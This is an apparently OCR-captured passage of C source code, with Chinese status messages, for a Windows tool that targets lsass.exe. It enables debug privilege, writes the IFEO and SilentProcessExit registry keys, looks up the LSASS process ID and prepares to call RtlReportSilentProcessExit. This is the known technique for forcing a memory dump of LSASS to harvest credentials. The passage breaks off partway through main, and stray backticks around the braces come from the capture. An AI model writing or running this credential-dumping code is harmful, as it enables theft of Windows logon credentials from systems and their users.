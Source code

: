 ```
        printf(" - 注册表设置完成 ...\n");
        ret = TRUE;

    `}` while (FALSE);

    free(subkeyIFEO);
    free(subkeySPE);
    if (hkResSubIFEO)
        CloseHandle(hkResSubIFEO);
    if (hkResSubSPE)
        CloseHandle(hkResSubSPE);

    return ret;
`}`

DWORD getPidByName(PCWCHAR procName) `{`

    HANDLE hProcSnapshot;
    DWORD retPid = -1;
    hProcSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe;

    if (INVALID_HANDLE_VALUE == hProcSnapshot) `{`
        printf(" - 创建快照失败!\n");
        return -1;
    `}`
    pe.dwSize = sizeof(PROCESSENTRY32W);
    if (!Process32First(hProcSnapshot, &amp;pe)) `{`
        printf(" - Process32First Error : %#X\n", GetLastError());
        return -1;
    `}`
    do `{`
        if (!lstrcmpiW(procName, PathFindFileName(pe.szExeFile))) `{`
            retPid = pe.th32ProcessID;
        `}`
    `}` while (Process32Next(hProcSnapshot, &amp;pe));
    CloseHandle(hProcSnapshot);
    return retPid;
`}`

INT main() `{`

    PCWCHAR targetProcName = L"lsass.exe";
    DWORD pid = -1;
    HMODULE hNtMod = NULL;
    fRtlReportSilentProcessExit fnRtlReportSilentProcessExit = NULL;
    HANDLE hLsassProc = NULL;
    NTSTATUS ntStatus = -1;

    if (!EnableDebugPriv()) `{`
        printf(" - 启用当前进程DEBUG权限失败: %#X\n", GetLastError());
        return 1;
    `}`
    printf(" - 启用当前进程DEBUG权限 OK\n");

    if (!setRelatedRegs(targetProcName)) `{`
        printf(" - 设置相关注册表键值失败: %#X\n", GetLastError());
        return 1;
    `}`
    printf(" - 设置相关注册表键值 OK\n");

    pid = getPidByName(targetProcName);
    if (-1 == pid) `{`
```